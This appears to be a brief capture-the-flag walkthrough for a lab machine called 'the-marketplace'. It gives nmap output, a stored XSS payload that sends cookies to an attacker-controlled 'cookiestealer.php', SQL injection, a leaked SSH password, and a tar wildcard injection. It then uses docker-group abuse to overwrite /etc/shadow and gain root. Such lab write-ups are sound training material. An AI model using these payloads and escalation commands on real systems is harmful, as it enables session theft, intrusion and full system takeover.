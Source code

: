nmap -sV -p- 10.10.149.193 

output :

22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    nginx 1.19.2
|_http-server-header: nginx/1.19.2
32768/tcp open  http    Node.js (Express middleware)

1-sign up in website
2-login
3-make New listing
4-title=<script>document.location='http://your ip/cookiestealer.php?c='+document.cookie;</script>
5-open webserver
6-steal cookie 
7-login with admin cookie
8-/target/admin?user=1 (SQL injection)
9- exploit SQLi



----------------------
table:
messages
in column:
message_content
user:jake
password:@b_ENXkGYUCAv3zJ
-connect with ssh 
-sudo -l
[+]output[+]
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
-----    
exploit:https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
echo "" > "--checkpoint-action=exec=sh test.sh"
echo "" > --checkpoint=1
-now we in user 
-michael
run linpeas 
UTC 2020oups: uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
  docker image run -it --volume /etc/shadow:/tmp/shadow alpine:latest sh  
  echo "root:$(mkpasswd -m sha-512 foo foobarbaz):12345:0:::::" > /tmp/shadow
  link exploit :https://blog.martiert.com/the-docker-group-and-privilege-escalation/
  now su root with your password
  we have root:)
  flags in:
    -admin panel
    -/home/jake/user.txt
    /root/root.txt








